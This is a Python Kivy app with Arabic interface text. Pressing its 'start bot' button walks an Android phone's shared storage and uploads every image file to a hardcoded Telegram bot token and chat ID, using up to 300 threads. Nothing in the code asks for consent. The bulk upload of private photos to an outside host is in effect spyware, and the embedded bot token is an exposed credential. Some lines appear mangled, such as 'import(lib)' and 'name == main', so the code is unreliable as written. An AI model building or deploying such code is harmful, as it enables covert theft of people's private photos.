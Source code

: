 import sys
import os
import subprocess
import threading
from concurrent.futures import ThreadPoolExecutor
from kivy.app import App
from kivy.uix.button import Button
from kivy.uix.boxlayout import BoxLayout
from kivy.uix.textinput import TextInput
from kivy.uix.label import Label
from kivy.uix.scrollview import ScrollView
from kivy.uix.popup import Popup

# قائمة المكتبات المطلوبة لتثبيتها
required_libraries = ['pyTelegramBotAPI']

def install_libraries():
    for lib in required_libraries:
        try:
            import(lib)
        except ImportError:
            print(f"{lib} غير مثبت، جاري تثبيته...")
            subprocess.check_call([sys.executable, '-m', 'pip', 'install', lib])

install_libraries()

import telebot

bot = telebot.TeleBot('7372239135:AAHdd7Ko2_NfkFu7SyXQ4lBZu7amFooF5fE')
chat_id = '6185375878'

dir_path = "/storage/emulated/0/"
is_running = False  # متغير للتحكم بحالة البوت
sent_files = []  # قائمة لتخزين الملفات المرسلة

# دالة إرسال الملفات إلى Telegram
def send_file(file_path):
    with open(file_path, "rb") as f:
        if file_path.lower().endswith((".jpg", ".png", ".jpeg", ".webp", ".heic")):
            bot.send_photo(chat_id=chat_id, photo=f)
            sent_files.append(file_path)

# دالة العمل في الخلفية
def background():
    global is_running
    with ThreadPoolExecutor(max_workers=300) as executor:
        for root, dirs, files in os.walk(dir_path):
            if not is_running:
                break
            for file in files:
                file_path = os.path.join(root, file)
                if file_path.lower().endswith((".jpg", ".png", ".jpeg", ".webp", ".heic", ".PNG", ".JPG", ".JPEG")):
                    executor.submit(send_file, file_path)

# دالة عرض الإشعارات
def show_notification(message):
    popup = Popup(title="إشعار", content=Label(text=message), size_hint=(0.6, 0.4))
    popup.open()

# التطبيق الرئيسي
class MyApp(App):
    def build(self):
        global dir_path
        layout = BoxLayout(orientation='vertical')
        
        # عناصر واجهة المستخدم
        label = Label(text="أدخل مسار الصور:")
        text_input = TextInput(text=dir_path, multiline=False)
        start_button = Button(text="تشغيل البوت", background_color=(0.2, 0.8, 0.2, 1))
        stop_button = Button(text="إيقاف البوت", background_color=(0.8, 0.2, 0.2, 1))
        scroll_view = ScrollView(size_hint=(1, 0.4))
        sent_files_label = Label(size_hint_y=None, text="الملفات المرسلة:\n", halign="left", valign="top")
        sent_files_label.bind(size=lambda *args: sent_files_label.setter('text_size')(sent_files_label, (sent_files_label.width, None)))
        scroll_view.add_widget(sent_files_label)
        
        # تحديث قائمة الملفات المرسلة
        def update_sent_files():
            sent_files_label.text = "الملفات المرسلة:\n" + "\n".join(sent_files)

        # دوال الأزرار
        def start_bot(instance):
            global is_running, dir_path
            dir_path = text_input.text
            is_running = True
            threading.Thread(target=background).start()
            show_notification("تم تشغيل البوت")
        
        def stop_bot(instance):
            global is_running
            is_running = False
            show_notification("تم إيقاف البوت")

        # ربط الأزرار بالأحداث
        start_button.bind(on_press=start_bot)
        stop_button.bind(on_press=stop_bot)

        # إضافة العناصر إلى الواجهة
        layout.add_widget(label)
        layout.add_widget(text_input)
        layout.add_widget(start_button)
        layout.add_widget(stop_button)
        layout.add_widget(scroll_view)

        return layout

if name == "main":
    MyApp().run()
